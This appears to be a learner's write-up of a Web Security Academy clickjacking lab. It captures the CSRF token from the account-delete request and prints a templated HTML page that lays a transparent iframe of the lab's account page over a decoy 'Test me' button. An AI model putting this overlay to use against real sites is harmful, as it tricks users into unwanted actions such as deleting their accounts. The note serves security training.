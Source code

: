 ﻿Based on the previous note: [NOTE](HOW%20TO%20CONSTRUCT%20A%20BASIC%20CLICKJACKING%20ATTACK.md)

![Pasted image 20241021153605.png](../../../../IMAGES/Pasted%20image%2020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![Pasted image 20241021155644.png](../../../../IMAGES/Pasted%20image%2020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![Pasted image 20241021162011.png](../../../../IMAGES/Pasted%20image%2020241021162011.png)
Once we send the exploit to the victim, lab's solved
